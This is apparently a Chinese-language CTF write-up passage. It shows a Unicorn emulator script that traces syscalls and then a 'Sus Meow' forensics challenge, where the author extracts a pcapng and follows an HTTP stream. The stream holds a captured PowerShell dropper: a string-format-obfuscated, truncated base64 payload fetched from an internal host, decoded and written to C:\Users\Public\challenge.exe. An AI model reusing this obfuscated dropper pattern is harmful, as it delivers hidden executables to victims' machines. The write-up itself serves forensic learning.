 ```python

def hook_code(uc: Uc, address, size, user_data):
    # print(">>> Tracing instruction at 0x%x, instruction size = 0x%x" % (address, size))
    for i in cs.disasm(uc.mem_read(address, size), address):
        print("0x%x:\t%s\t%s" % (i.address, i.mnemonic, i.op_str))
        if i.mnemonic == 'syscall':
            call = uc.reg_read(UC_X86_REG_RAX)
            print(f">>> syscall num: {call}")
            if call == 1:
                print(f">>> arg1 = {uc.reg_read(UC_X86_REG_RDI)}, arg2 = {uc.mem_read(uc.reg_read(UC_X86_REG_RSI), uc.reg_read(UC_X86_REG_RDX))}")

uc = Uc(UC_ARCH_X86, UC_MODE_64)
uc.mem_map(ADDRESS, 0x100000)
uc.mem_map(STACK, 0x1000)
uc.mem_write(ADDRESS, code)
uc.reg_write(UC_X86_REG_RSP, STACK + 0x1000)
uc.hook_add(UC_HOOK_CODE, hook_code)
uc.emu_start(ADDRESS, ADDRESS + 0x2a7)
```





## **Sus Meow**

第二个题目，是一段网络通信数据包的二进制文件。用wireshark分析还报错。所以也只能看十六进制显示的内容了。



然后我就猜着，会不会是这个解压出来的二进制文件，仍然是一个压缩包呢？  于是把`sus-meow ` 更名为`sus-meow.zip`。然后解压缩一下，还真的解压出来了。一个`attachments`的文件夹里面包含了`challenge.pcapng`的文件。



**这里，我又去查了一下，发现zip压缩、rar压缩，出来的二进制文件。都不是以`attachements/`开头的。但是为啥这种方法就奏效了？，难道本身就是文件目录转换为的二进制？**



现在可以用wireshark分析`challenge.pcapng`了。追踪流之后，感觉像是用PowerShell 给服务器发指令+加密的恶意代码，然后让服务器解密+运行恶意代码。解密可以明显的看到用的是`FromBase64String`

```
GET /muahaha.ps1 HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.19041.1682
Host: 10.0.2.15
Connection: Keep-Alive

HTTP/1.0 200 OK
Server: SimpleHTTP/0.6 Python/3.10.8
Date: Wed, 11 Jan 2023 11:02:35 GMT
Content-type: application/octet-stream
Content-Length: 108368
Last-Modified: Wed, 11 Jan 2023 10:55:29 GMT

$cph8=("{4}{8}{1}{6}{3}{7}{0}{5}{2}{11}{9}{10}" -f
'3URi0QkHDmEJJgAAAAPhLMCAACNjCSUAAAAi0UAMdKNdQSJDCSJ0Yn1id6Jwrh4AAAA6K3h///pEfr//4uUJJgAAACDyiCJlCSYAAAA9sIED4Ve/f//3UUAjXUI2cDZ5Zvf4GYlAEVmPQABD4SzAgAA23wkQNtsJEAPt3wkSGaF/3kKgMqAiZQkmAAAANnlm9/g3dhmJQBFZj0ABQ+EfAMAANt8JDCLRCQwi1QkNGaB5/9/D4RMAwAAZoH/ADwPjxwCAAAPv++5ATwAACnpMe0PrdDT6vbBIA9Fwg9F1QH5jbkEwP/
··········

$lUOIoOXye4ZWRJ79vwRvpERQ = ('{2}{3}{0}{5}{4}{1}' -f 's\Pub','xe','C:\Us','er','lenge.e','lic\chal')

$xP6FknJVZBb = [Convert]::FromBase64String($cph8)
[IO.File]::WriteAllBytes($lUOIoOXye4ZWRJ79vwRvpERQ, $xP6FknJVZBb)
```